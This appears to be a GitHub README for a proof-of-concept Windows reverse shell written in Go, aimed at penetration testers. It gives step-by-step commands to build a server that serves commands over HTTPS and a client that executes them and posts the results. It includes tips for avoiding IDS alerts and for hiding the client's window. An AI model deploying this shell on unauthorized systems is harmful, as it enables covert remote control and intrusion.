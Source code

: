 # lonely-shell

This is a proof of concept, minimal Windows reverse shell written in Golang that uses HTTPS/TLS for communication. The Linux server uses a self-signed certificate and hosts a single static file that contains a Windows command. The Windows client is a 64-bit portable executable that does a GET request every 30 seconds to obtain a Windows command from the server which then is executed and the results are sent via POST. A traffic file is included with this repository to show an example of the encrypted reverse shell communication. Also, a simple python script is provided to easily change the Windows command that the reverse shell will execute.  

This project was created due to the lack of open-source Windows reverse shells that use legitimate HTTPS traffic for communication. I hope this project can be a starting point for penetration testers who desire this capability in their engagements.

**Disclaimer: This reverse shell is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Server (Linux)

It's recommended not to use default values when creating a self-signed certificate as this could generate a certificate that will alert an IDS. Also, note that as the client/server is running you may modify `static/command.html` to the Windows command you wish to execute, or use `python setcmd.py`.

```shell
$ # clone this repository
$ git clone https://github.com/vesche/lonely-shell
$ # create a new directory for your server
$ mkdir server && cd $_
$ # generate a 2048-bit private key and a self-signed certificate
$ openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 365 -out server.crt
$ # create the static directory
$ mkdir static
$ # write a windows command to command.html for the client to GET
$ echo "dir" > static/command.html
$ # copy server.go into your server directory
$ copy /path/to/lonely-shell/server.go .
$ # build the server
$ go build server.go
$ # start the server
$ sudo ./server
```

## Client (Windows)

You will need to modify the IP address in `client.go` to fit your needs. It's required to first build the client normally, and then build it with the switch options to hide the command prompt window. Double clicking the binary will start the client, given there is a properly configured server. The client has only been tested on Windows 7, but should work on XP - 10.

```batch
C:\> :: clone this repository
C:\> git clone https://github.com/vesche/lonely-shell && cd lonely-shell
C:\> :: build the client
C:\lonely-shell> go build client.go
C:\lonely-shell> :: rebuild the client so it will run in a hidden window
C:\lonely-shell> go build -ldflags -H=windowsgui client.go
C:\lonely-shell> :: start the client
C:\lonely-shell> client.exe
```
